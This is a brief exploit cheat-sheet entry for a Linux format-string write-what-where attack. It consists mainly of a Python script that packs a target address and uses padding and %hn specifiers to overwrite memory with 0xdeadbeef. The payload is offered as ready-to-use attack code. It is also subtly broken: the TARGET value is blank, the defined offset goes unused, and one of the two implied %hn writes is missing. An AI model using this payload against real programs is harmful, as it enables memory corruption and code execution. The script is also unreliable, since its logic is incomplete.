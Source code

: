 # Format String

## Linux

### Write-what-where

Writes 0xdeadbeef to the adress specified in target:

```python
import struct

# In this example we write 0xdeadbeef to the address in TARGET
# - find offset with AAAA|%p|%p|%p...
# - write to target address as seen below
# - send as argv as follows: $'...'

OFFSET = 9
TARGET = 

buf = b""
buf += struct.pack("I", TARGET)
buf += struct.pack("I", TARGET + 2)
buf += b'%48871x' # 0xBEEF - 8 = 48871
buf += b'%8126x' # 0xDEAD - 0xBEEF = 8126
buf += b'%10$hn'
print(buf)
```


